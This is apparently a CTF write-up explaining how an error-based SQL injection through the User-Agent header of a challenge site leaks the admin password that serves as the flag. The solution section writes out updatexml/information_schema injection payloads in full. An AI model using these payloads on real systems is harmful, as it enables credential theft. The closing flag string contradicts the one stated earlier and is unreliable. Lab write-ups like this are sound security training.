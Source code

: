 # Description
Agents can register and login, but can you figure out the flag? Flag Format: CYBERGON_CTF2024{xxx}


# Flag
CYBERGON_CTF2024{N0w_Ag3nt_PwN3d_Th3_S3rv3r}


# Analysis
Visiting the website you will get this index page:
![image](https://github.com/user-attachments/assets/39b2c3e3-0c60-4b51-bb76-5644e0e60794)


You only have 2 options to either login or register, one thing to note is you cant register with a username that already exists. I always test for this at the start to see if the user admin exists within the database and it does for this challenge:
![image](https://github.com/user-attachments/assets/67845949-73ed-45dc-b9a1-ab0e79b2243e)


Once you login successfully you can access a log page, on this log page it prints your user agent and public ip address:

![image](https://github.com/user-attachments/assets/6868eb25-a7fd-45f7-9acd-4a8e4a52ee09)


Based on what's being printed and the challenge name I assumed it was something to do with the User-Agent Header in the request so I did some searching. After awhile I stumbled upon this ctf challenge writeup with the almost [exact same problem](https://ctftime.org/writeup/24894)  . Reading through it you can understand how this injection works. Basically it submits a query with the intention of getting an error message regarding the XPath and you can manipulate the error message to print the data you intend to extract.
![image](https://github.com/user-attachments/assets/9f9a8a40-d6d1-4338-9cc4-1b2b49e2270e)

# Solution
To test I tried the first query:
![image](https://github.com/user-attachments/assets/babb9a55-a3a0-4342-ad92-33af9df85e36)


but as you can see it didn't give the expected output this is because we are trying to insert 3 values into a table that only has 2 columns so a maximum of only 2 values can be taken in. To fix this just simply remove the admin from the query:
![image](https://github.com/user-attachments/assets/7697b3a6-62ac-426f-9747-fae5efd82c72)


Now we get the correct error message, so we know the database is called ctf. With this knowledge we can search within this database now for the tables that exist within it and their names using this query:
`'or updatexml(0, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema='ctf' LIMIT 1)), 0) or '', '127.0.0.1') #`

This query selects the first table and its name from the ctf database and displays it because there cannot be more than one printed value in the error message we have to extract the names 1 by 1.
![image](https://github.com/user-attachments/assets/7e848917-3eb3-464c-bdf6-6983c4260f85)


We get this result but this is not what we want we need to know what is the table name that houses user data to acquire the admin password to login as admin, to get our desired table name we can modify the query like so:
`'or updatexml(0, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema='ctf' LIMIT 1 OFFSET 1)), 0) or '', '127.0.0.1') #`

![image](https://github.com/user-attachments/assets/c0c1b9f5-38be-44d0-af6e-807fd6db4b04)


Nice it worked, with this we can now query the users table for the user which has username=admin and get its password with this query:
`'or updatexml(0, concat(0x7e, (SELECT password FROM users WHERE username='admin' LIMIT 1)), 0) or '', '127.0.0.1') #`

![image](https://github.com/user-attachments/assets/2236dade-fb4e-4afd-8d7e-56b94d5d43ef)


The admin password seems to be the flag but it's not printing out the entire flag message, we can change our query to something like this to print out the latter half that we currently can't see:
`'or updatexml(0, concat(0x7e, (SELECT substring(password, 25, 40) FROM users WHERE username='admin' LIMIT 1)), 0) or '', '127.0.0.1') #`
![image](https://github.com/user-attachments/assets/bc0bc020-f24d-4042-bddc-dd38dc6ad534)


With that we have the rest of the flag, challenge solved!


CYBERGON_CTF2024{doorstops.overthrows.folder_4_Gautama_Kakusandha_Kassapa_Konagamana}

